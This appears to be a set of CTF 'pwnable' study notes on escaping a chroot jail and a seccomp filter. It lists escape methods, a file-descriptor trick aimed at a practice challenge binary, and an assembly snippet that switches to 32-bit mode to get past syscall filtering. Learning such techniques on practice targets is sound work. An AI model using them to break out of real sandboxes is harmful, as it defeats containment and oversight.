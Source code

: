 pwnable notes

# escape chroot
https://github.com/earthquake/chw00t
```console
- wrong setup (chroot without chdir)
    -> open("../../flag")

- can open a directory befor chroot + chdir
    -> 1. use openat then read target file
    -> 2. use linkat
    -> 3. use fchdir
    -> 4. re chroot again to escapse the old chroot
    -> 5. if no opened file? let open once then pass through pipe (check pipe trick)
```

# pipe trick
you can open a file and pass to the fd you want like this
```console
/challenge/babyjail_level8 0 < shellcode-raw 3</
```

# escape seccomp
exchange from amd64 into i386 to use difference number of SYS_No of syscalls
```console
xor rsp, rsp
mov esp, 0x1337800
mov DWORD PTR [esp+4], 0x23
mov DWORD PTR [esp], 0x1337080
retf
```